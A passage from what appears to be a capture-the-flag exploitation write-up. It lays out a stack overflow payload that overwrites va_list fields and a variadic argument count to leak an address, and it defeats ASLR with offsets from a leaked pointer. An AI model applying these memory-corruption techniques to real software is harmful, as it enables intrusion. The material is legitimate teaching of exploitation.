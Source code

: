 Our payload must adhere to the current layout of the stack:

| Payload | Comment|
| :-----------: | :-: |
| help | To trigger printing |
| _ _ _ _ _ _ | Six bytes of space |
| _ _ _ _ | Four bytes for gp_offset, must be some value greater than 40 |
| _ _ _ _ | Four bytes for fp_offset |
| x x x x x x x x x | overflow_arg_area, our address will be here |
| _ _ _ _ _ _ _ _ _ | reg_save_area |
| _ _ _ _ | Argument n, the number of variadic args |
| _ _ | Two bytes of space |

We need 8 consecutive bytes to store our address in. Using `reg_save_area` is the obvious choice. We should also overwrite argument `n` to be `0x01` since we only want to read one address. With our payload format figured out, we need to determine the contents. In this case, that would be:

| Payload | Comment|
| :-----------: | :-: |
| help | To trigger printing |
| A A A A A A | Six bytes of space |
| A A A A | Four bytes for gp_offset, must be some value greater than 40 |
| A A A A | Four bytes for fp_offset |
| 0x00007ffe0d73e210 | overflow_arg_area, this points to reg_save_area |
| 0x00007ffe0d73e238 | reg_save_area, this points to the address of player |
| 0x00000001 | Argument n, the number of variadic args |
| 0x0a 0x00 | Two bytes of space used by newline and 0x00 |

Unfortunately, that would only work in this context since the addresses will change on the next run due to ASLR. Instead, we need to use our leaked and address and calculate the offset. In this case, our leaked address is `0x7ffe0d73e260`. To calculate our offset for the address of `reg_save_area`, we do `0x7ffe0d73e210 - 0x7ffe0d73e260 = -80`. The offset for the address to player is `0x00007ffe0d73e238 - 0x7ffe0d73e260 = -40`. Our custom payload, then, will be the following where `LA` stands for the Leaked Address of the player name:

| Payload | Comment|
| :-----------: | :-: |
| help | To trigger printing |
| A A A A A A | Six bytes of space |
| A A A A | Four bytes for gp_offset, must be some value greater than 40 |
| A A A A | Four bytes for fp_offset |
| LA + -80 | overflow_arg_area, this points to reg_save_area |
| LA + -40 | reg_save_area, this points to the address of player |
| 0x00000001 | Argument n, the number of variadic args |
| 0x0a 0x00 | Two bytes of space used by newline and 0x00 |
